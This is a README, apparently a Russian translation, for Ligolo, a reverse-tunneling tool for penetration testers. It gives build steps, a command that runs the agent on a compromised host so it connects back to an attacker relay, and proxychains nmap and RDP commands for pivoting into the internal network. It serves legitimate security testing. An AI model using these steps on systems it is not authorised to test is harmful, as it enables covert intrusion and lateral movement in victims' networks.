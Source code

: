 # Ligolo : Простое обратное туннелирование для пентестеров, от пентестеров

[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/gluten-free.svg)](https://forthebadge.com)

![Ligolo](img/ligolo.png)

<!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
## Содержание

- [Вступление](#Вступление)
- [Пример использования](#Пример-использования)
- [Быстрая демонстрация](#Быстрая-демонстрация)
- [Производительность](#Производительность)
- [Использование](#Использование)
  - [Настройка / Компиляция](#Настройка--Компиляция)
  - [Как использовать?](#Как-использовать)
  - [TL;DR](#tldr)
  - [Опции](#Опции)
- [Особенности](#Особенности)
- [To Do](#to-do)
- [Лицензирование](#Лицензирование)
- [Credits](#credits)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

## Вступление

**Ligolo** это * простой * и * легкий * инструмент для установления * SOCKS5 * или * TCP * туннелей из обратного соединения в полной безопасности (сертификат TLS с эллиптической кривой).
Это сопоставимо с * Meterpreter* с * Autoroute + Socks4a*, но более стабильно и быстрее.

## Пример использования

Вы скомпрометировали сервер Windows / Linux / Mac во время вашего внешнего аудита. Этот сервер расположен внутри локальной сети, и
вы хотите установить соединения с другими компьютерами в этой сети.

**Ligolo** может настроить туннель для доступа к ресурсам внутреннего сервера.

## Быстрая демонстрация

Ретрансляция RDP-соединения с использованием прокси-цепочек (WAN).

![RDP](img/rdesktop_example.gif)

## Производительность

Вот скриншот теста скорости между двумя хостами со скоростью 100 Мбит/с (ligolo / localrelay). Производительность может варьироваться в зависимости от конфигурации системы и сети.

![Проверка скорости](img/speedtest.png)

## Использование

### Настройка / Компиляция

Убедитесь, что * Go* установлен и работает.

1. Получите Ligolo и зависимости

```
cd `go env GOPATH`/src
git clone https://github.com/sysdream/ligolo
cd ligolo
make dep
```

2. Сгенерируйте самоподписанный TLS сертификат (будет помещен в *certs* папку)

```
make certs TLS_HOST=example.com
```

NOTE: Вы также можете использовать свои собственные сертификаты, используя `TLS_CERT` переменную окружения при вызове *build*. Пример: `make build-all TLS_CERT=certs/mycert.pem`.

3. Сборка

* 3.1. Для всех архитектур

```
make build-all
```

* 3.2. (или) Для текущей архитектуры

```
make build
```

### Как использовать?

*Ligolo* состоит из двух модулей:

- localrelay
- ligolo

*Localrelay* предназначен для запуска на сервере управления (сервере злоумышленника).

*Ligolo* это программа для запуска на целевом компьютере.

Для *localrelay*, вы можете оставить параметры по умолчанию. Он будет прослушивать каждый интерфейс на порту 5555 и ждать подключений от *ligolo* (`-relayserver` параметр).

For *ligolo*, you must specify the IP address of the relay server (or your attack server) using the `-relayserver ip:port` parameter.

Вы можете использовать `-h` для помощи.

Как только будет установлено соединение между *Ligolo* и *LocalRelay*, прокси-сервер *SOCKS5* будет поднят на TCP-порт `1080` на relay сервере (вы можете изменить TCP-адрес/порт, используя опцию *-localserver*).

После этого все, что вам нужно сделать, это использовать ваш любимый инструмент (например, Proxychains) и исследовать локальную сеть клиента.

### TL;DR

На вашем атакующем сервере.

```
./bin/localrelay_linux_amd64
```

На скомпроментированом хосте.

```
> ligolo_windows_amd64.exe -relayserver LOCALRELAYSERVER:5555
```

Как только соединение установлено, установите следующие параметры в конфигурационном файле ProxyChains (на атакующем сервере):

```
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5     127.0.0.1 1080
```

Profit.

```
$ proxychains nmap -sT 10.0.0.0/24 -p 80 -Pn -A
$ proxychains rdesktop 10.0.0.123
```

### Опции

*Localrelay* опции:

```
Использование localrelay:
  -certfile string
    	Сертификат сервера TLS (по умолчанию "certs/server.crt")
  -keyfile string
    	Ключ сервера TLS (по умолчанию "certs/server.key")
  -localserver string
    	Адрес локального сервера (ваш параметр proxychains) (default "127.0.0.1:1080")
  -relayserver string
    	Адрес прослушивания сервера ретрансляции (обратный адрес для подключения) (default "0.0.0.0:5555")
```

*Ligolo* опции:

```
Использование ligolo:
  -autorestart
    	Попытка повторного подключения в случае ошибки
  -relayserver string
    	Сервер ретрансляции (обратный адрес для подключения) (default "127.0.0.1:5555")
  -skipverify
    	Пропустить проверку сертификата TLS
  -targetserver string
    	Целевой сервер (RDP-клиент, SSH-сервер и т.д.) - если не указано, Ligolo запускает прокси-сервер socks5.
```

## Особенности

- Туннель TLS 1.3 с поддержкой TLS
- Мультиплатформенность (Windows / Linux / Mac / ...)
- Мультиплексирование (1 TCP-соединение для всех потоков)
- Прокси-сервер SOCKS5 или простая ретрансляция

## To Do

- Улучшенная обработка тайм-аута
- Поддержка SOCKS5 UDP
- Implement mTLS

## Лицензирование

GNU General Public License v3.0 (See LICENSING).

## Credits

* Nicolas Chatelain <n.chatelain -at- sysdream.com>

[![Sysdream](img/logo_sysdream.png)](https://sysdream.com)
